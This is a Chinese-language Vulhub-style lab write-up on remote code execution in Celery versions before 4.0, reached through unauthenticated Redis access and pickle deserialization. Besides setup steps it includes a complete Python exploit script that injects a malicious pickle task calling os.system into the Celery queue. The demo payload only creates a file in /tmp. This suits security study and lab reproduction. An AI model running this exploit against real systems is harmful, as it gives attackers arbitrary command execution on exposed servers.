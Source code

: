 # Celery <4.0 Redis未授权访问+Pickle反序列化利用

## 漏洞描述

Celery 是一个简单、灵活且可靠的分布式系统，用于处理大量消息，同时为操作提供维护此类系统所需的工具。它是一个专注于实时处理的任务队列，同时也支持任务调度。

在Celery < 4.0版本默认使用Pickle进行任务消息的序列化传递，当所用队列服务（比如Redis、RabbitMQ、RocketMQ等等等）存在未授权访问问题时，可利用Pickle反序列化漏洞执行任意代码。

参考阅读：

- https://docs.celeryproject.org/en/stable/userguide/configuration.html
- https://www.bookstack.cn/read/celery-3.1.7-zh/8d5b10e3439dbe1f.md#dhfmrk
- https://docs.celeryproject.org/en/stable/userguide/calling.html#serializers
- https://www.jianshu.com/p/52552c075bc0
- https://www.runoob.com/w3cnote/python-redis-intro.html
- https://blog.csdn.net/SKI_12/article/details/85015803

## 环境搭建

Vulhub执行如下命令启动Celery 3.1.23 + Redis：

```
docker-compose up -d
```

## 漏洞复现

漏洞利用脚本`exploit.py`仅支持在python3下使用

```python
import pickle
import json
import base64
import redis
import sys
r = redis.Redis(host=sys.argv[1], port=6379, decode_responses=True,db=0)

ori_str="{\"content-type\": \"application/x-python-serialize\", \"properties\": {\"delivery_tag\": \"16f3f59d-003c-4ef4-b1ea-6fa92dee529a\", \"reply_to\": \"9edb8565-0b59-3389-944e-a0139180a048\", \"delivery_mode\": 2, \"body_encoding\": \"base64\", \"delivery_info\": {\"routing_key\": \"celery\", \"priority\": 0, \"exchange\": \"celery\"}, \"correlation_id\": \"6e046b48-bca4-49a0-bfa7-a92847216999\"}, \"headers\": {}, \"content-encoding\": \"binary\", \"body\": \"gAJ9cQAoWAMAAABldGFxAU5YBQAAAGNob3JkcQJOWAQAAABhcmdzcQNLZEvIhnEEWAMAAAB1dGNxBYhYBAAAAHRhc2txBlgJAAAAdGFza3MuYWRkcQdYAgAAAGlkcQhYJAAAADZlMDQ2YjQ4LWJjYTQtNDlhMC1iZmE3LWE5Mjg0NzIxNjk5OXEJWAgAAABlcnJiYWNrc3EKTlgJAAAAdGltZWxpbWl0cQtOToZxDFgGAAAAa3dhcmdzcQ19cQ5YBwAAAHRhc2tzZXRxD05YBwAAAHJldHJpZXNxEEsAWAkAAABjYWxsYmFja3NxEU5YBwAAAGV4cGlyZXNxEk51Lg==\"}"
task_dict = json.loads(ori_str)
command = 'touch /tmp/celery_success'
class Person(object):
    def __reduce__(self):
        # 未导入os模块，通用
        return (__import__('os').system, (command,))
pickleData = pickle.dumps(Person())
task_dict['body']=base64.b64encode(pickleData).decode()
print(task_dict)
r.lpush('celery',json.dumps(task_dict))
```

```
pip install redis
python exploit.py [主机IP]
```

![image-20220301104913810](images/202203011049883.png)

查看结果：

```
docker-compose logs celery
```

可以看到如下任务消息报错：

![image-20220301104801643](images/202203011048739.png)

```
docker-compose exec celery ls -l /tmp
```

可以看到成功创建了文件`celery_success`

![image-20220301104827599](images/202203011048652.png)

